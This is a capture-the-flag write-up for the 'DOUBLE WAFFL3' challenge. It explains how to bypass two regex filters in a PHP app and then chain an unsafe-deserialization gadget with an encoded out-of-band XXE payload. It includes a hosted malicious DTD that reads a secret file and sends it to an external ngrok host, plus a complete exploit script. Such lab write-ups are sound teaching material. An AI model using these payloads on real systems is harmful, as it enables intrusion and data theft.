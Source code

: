 ```yaml
---
layout: post
title:  "DOUBLE WAFFL3"
date:   2022-03-08 12:47:20 -0500
categories: jekyll update
---
```

## Introduction

In this challenge we will take advantage of PHP deserialization attack to send our XXE payload through HTTP Cookies, But first we have to Bypass 2 WAFS! let’s get started. 

### Code Analysis
**_index.php_** 
We can see below a new object is defined of type _XmlParserModel_ passing to it the _.env_ file, we will get back to this class later. The interesting part here is were the application defines a cookie of type _UserModel_, moving forward it serializes the cookie and sends it back the the user as shown below.
```php
new XmlParserModel(file_get_contents('.env'));

if (empty($_COOKIE['PHPSESSID']))
{
    $user = new UserModel;
    $user->username = substr(uniqid('guest_'), 0, 10);
    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($user)), 
        time()+60*60*24, 
        '/'
    );
}
```
Two different routes are defined within the application
**_index.php_** 
```php 
$router = new Router();

$router->new('GET', '/', fn($router) => $router->view('menu'));
$router->new('POST', '/api/order', 'OrderController@order');
```
**POST** requests to _/api/order_ route calls the _order(_) function from its  _OrderController.php_ module, let’s check it out.
**_OrderController.php_** 
```php 
class OrderController
{
    public function order($router)
    {
        $body = file_get_contents('php://input');
        $cookie = base64_decode($_COOKIE['PHPSESSID']);
        safe_object($cookie);
        $user = unserialize($cookie);
```
Now Let’s take a look into the _safe_object()_ function 
**_OrderController.php_** 
```php 
function safe_object($serialized_data)
{
    $matches = [];
    $num_matches = preg_match_all('/(^|;)O:\d+:"([^"]+)"/', $serialized_data, $matches);

    for ($i = 0; $i < $num_matches; $i++) {
        $methods = get_class_methods($matches[2][$i]);
        foreach ($methods as $method) {
            if (preg_match('/^__.*$/', $method) != 0) {
                die("Unsafe method: ${method}");
            }}}}
```
So what this function does briefly is that it takes the serialized payload and uses regex to search for the occurrences of `o:<some number>:"<class name>"`, extracts the class name, and calls **get_class_methods()** function to check for all functions of a class, iterates over them, if a PHP magic method such as **constructor**, **wakeup** .. etc is found, it will match the second regex, thus the application will call **die()** to end the application. 

Before trying to bypass the WAF, we have to build our PHP gadget, we have to find a useful class that uses any magic methods. 

**_XmlParserModel.php_**
```php 
 <?php
class XmlParserModel
{
    private string $data;
    private array $env;

    public function __construct($data)
    {
      
        $this->data = $data;
    }

    public function __wakeup()
    {
        if (preg_match_all("/<!(?:DOCTYPE|ENTITY)(?:\s|%|&#[0-9]+;|&#x[0-9a-fA-F]+;)+[^\s]+\s+(?:SYSTEM|PUBLIC)\s+[\'\"]/im", $this->data))
        {
            die('Unsafe XML');
        }
        $env = @simplexml_load_string($this->data, 'SimpleXMLElement', LIBXML_NOENT);

        if (!$env) 
        {
            die('Malformed XML');
        }

        foreach ($env as $key => $value)
        {
            $_ENV[$key] = (string)$value;
        }
    }

}
```
 
As we can see above, this class uses  **__wakeup()**, and uses regex again to check for malicious XXE payload, it filters the occurrence of **<!ENTITY file SYSTEM "file:///path/to/file">**. if a match is found, the application is suspended, else it will parse the XML.
### Building the exploit 
In order to build our exploit, we have to create a new serialized object of type **_XmlParserModel_** and set the **$data** to XXE payload that reads the flag, but first let’s bypass the **_safe_object()_**

### KILL WAF #1
Inspired from the [Composr CMS Remote Code Execution](https://github.com/MegadodoPublications/exploits/blob/master/composr.md), We can easily bypass the poor regex by defining an array object with a string of value **";O:2:"** at index 0, then passing our malicious object to the next index.
For example, In the payload below, the regex will match **;O:10**, as if it’s a class name, bypassing the **_get_class_methods()_**
```markdown 
// a:1:{s:5:";O:2:";O:10:"HelloWorld":0:{}};
//           ^           ^
// match   begin        end
```
### KILL WAF #2 
The XXE WAF can be bypassed through HTML encoding our malicious crafted entity, but to make things easier, we will exfiltrate data through an out-of-band OBB channel using HTTP by utilizing parameter entities, we will use **<!ENTITY % dtd SYSTEM "http://attackerserver.com/malc.dtd" >** to refer to a DTD defined and hosted on our remote server, and that’s for the purpose of bypassing the regex once only. 
We can now craft our payload and save it into a file, then host it. 

**_malc.dtd_** 
```xml 
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/secret">
<!ENTITY % abt "<!ENTITY exfil SYSTEM 'http://8cda-188-247-74-33.ngrok.io/bypass.xml?%data;'>">
%abt; 
``` 
Now creating our XXE payload, First let’s define our private entity to import the remote the DTD. 
```xml 
<!ENTITY % dtd SYSTEM "http://8cda-188-247-74-33.ngrok.io/malc.dtd" > 
``` 
HTML encoding is equivalent to:  
```markdown
&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;
&#x25;&#x20;&#x64;&#x74;&#x64;&#x20;&#x53;&#x59;&#x53;
&#x54;&#x45;&#x4d;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;
&#x3a;&#x2f;&#x2f;&#x38;&#x63;&#x64;&#x61;&#x2d;&#x31;
&#x38;&#x38;&#x2d;&#x32;&#x34;&#x37;&#x2d;&#x37;&#x34;
&#x2d;&#x33;&#x33;&#x2e;&#x6e;&#x67;&#x72;&#x6f;&#x6b;
&#x2e;&#x69;&#x6f;&#x2f;&#x6d;&#x61;&#x6c;&#x63;&#x2e;
&#x64;&#x74;&#x64;&#x22;&#x20;&#x3e;
```
Inject the entity into the DOCTYPE: 
```xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % a "&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x64;&#x74;&#x64;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4d;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3a;&#x2f;&#x2f;&#x38;&#x63;&#x64;&#x61;&#x2d;&#x31;&#x38;&#x38;&#x2d;&#x32;&#x34;&#x37;&#x2d;&#x37;&#x34;&#x2d;&#x33;&#x33;&#x2e;&#x6e;&#x67;&#x72;&#x6f;&#x6b;&#x2e;&#x69;&#x6f;&#x2f;&#x6d;&#x61;&#x6c;&#x63;&#x2e;&#x64;&#x74;&#x64;&#x22;&#x20;&#x3e;" >
  %a; 
  %dtd;
]>
<data><env>&exfil;</env></data>
``` 
 
## Final Exploit  
Our final exploit will look like  
```php 
  <?php

class XmlParserModel { 

	public function __construct($data)
    {	

    	$this->data = $data; 
    } 

}
$exploit = serialize([";O:2:" => new XmlParserModel('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % a "&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x64;&#x74;&#x64;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4d;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3a;&#x2f;&#x2f;&#x38;&#x63;&#x64;&#x61;&#x2d;&#x31;&#x38;&#x38;&#x2d;&#x32;&#x34;&#x37;&#x2d;&#x37;&#x34;&#x2d;&#x33;&#x33;&#x2e;&#x6e;&#x67;&#x72;&#x6f;&#x6b;&#x2e;&#x69;&#x6f;&#x2f;&#x6d;&#x61;&#x6c;&#x63;&#x2e;&#x64;&#x74;&#x64;&#x22;&#x20;&#x3e;" >%a;%dtd;]><data><env>&exfil;</env></data>')]);
echo base64_encode($exploit); 
 
?>
``` 
